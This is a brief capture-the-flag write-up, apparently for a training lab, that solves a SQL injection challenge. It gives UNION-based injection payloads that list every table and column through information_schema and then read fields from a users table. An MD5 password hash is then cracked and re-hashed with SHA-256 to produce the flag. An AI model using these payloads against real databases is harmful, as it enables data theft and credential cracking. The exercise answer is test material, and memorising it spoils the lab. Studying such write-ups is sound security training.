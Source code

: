 first use this to get all collumns of all tables:
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns

and look for "users" (Ctrl+F)

Then let's get Commentaire and first_name from table "users"
1 AND 1=2 UNION SELECT first_name, Commentaire FROM users

The "Commentaire" column tells us : "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"
Let's have a look to the "countersign" column : 5ff9d0165b4f92b14994e5c685cdce28

This seems like a md5 encoded string so let's decode it => This give us "FortyTwo" !

So now let's follow Commentaire's instructions : Lower it (fortytwo) and then Sha256 on it : 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
This is our flag !